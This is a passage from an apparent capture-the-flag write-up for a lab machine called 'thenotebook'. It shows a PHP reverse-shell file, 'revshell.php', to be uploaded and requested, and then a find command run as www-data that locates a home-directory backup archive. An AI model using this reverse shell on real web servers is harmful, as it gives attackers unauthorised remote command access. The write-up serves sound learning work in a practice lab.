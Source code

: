![](src/admin.png)

And :boom:

__revshell.php__
```php
<?php $sock=fsockopen("IP",PORT);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes); ?>
```

Upload and `GET` it.

# Lateral: Home backup

```bash
www-data@thenotebook:~/html$ find / -newermt "2021-02-12" ! -newermt "2021-02-19" -ls 2>/dev/null  | grep -v ' /etc\| /var/lib\| /sys\| /proc\| /boot\| /lib\| /usr/share\| /usr/lib\| /usr/src\| /usr/include'
usr/share\| /usr/lib\| /usr/src\| /usr/include'| /sys\| /proc\| /boot\| /lib\| /u
    10884     44 -rwxr-xr-x   1 root     root        43136 Feb 15 13:08 /usr/bin/mdig
    10882    148 -rwxr-xr-x   1 root     root       150024 Feb 15 13:08 /usr/bin/dig
    10967     68 -rwxr-xr-x   1 root     root        67608 Feb 15 13:08 /usr/bin/nsupdate
     7797      8 -rwxr-xr-x   1 root     root         6332 Feb 17 12:35 /usr/bin/c_rehash
    10880     44 -rwxr-xr-x   1 root     root        41840 Feb 15 13:08 /usr/bin/delv
    10920    132 -rwxr-xr-x   1 root     root       133640 Feb 15 13:08 /usr/bin/nslookup
     8032    708 -rwxr-xr-x   1 root     root       723944 Feb 17 12:35 /usr/bin/openssl
     1320    128 -rwxr-xr-x   1 root     root       129704 Feb 15 13:08 /usr/bin/host
    16234   7660 -rwxr-xr-x   1 root     root      7841912 Feb 18 13:45 /usr/sbin/runc
     7806      4 drwxr-xr-x   5 root     root         4096 Feb 12 06:52 /usr/local/share
   268386      4 drwxrwsr-x   2 root     staff        4096 Feb 12 06:52 /usr/local/share/fonts
   131073      4 drwxr-xr-x   2 root     root         4096 Feb 12 06:22 /bin
    10932      0 lrwxrwxrwx   1 root     root           34 Feb 12 06:17 /initrd.img.old -> boot/initrd.img-4.15.0-135-generic
    24993      0 lrwxrwxrwx   1 root     root            9 Feb 17 09:03 /home/noah/.bash_history -> /dev/null
    32770      4 drwxr-xr-x  14 root     root         4096 Feb 12 06:52 /var
    16396      4 drwxr-xr-x   2 root     root         4096 Feb 17 14:21 /var/log/nginx
     1507      8 -rw-r--r--   1 root     root         4373 Feb 17 09:02 /var/backups/home.tar.gz
     9487      4 -rw-r--r--   1 root     root         3621 Feb 12 06:52 /var/backups/apt.extended_states.3.gz
     8269      4 drwxr-xr-x  10 root     root         4096 Feb 12 06:25 /var/cache
     8284      4 drwxr-xr-x   2 pollinate root         4096 Feb 12 06:25 /var/cache/pollinate
      845      0 -rw-r--r--   1 pollinate daemon          0 Feb 12 06:25 /var/cache/pollinate/seeded
     8194     12 drwxr-xr-x   2 root      root        12288 Feb 16 10:47 /sbin
```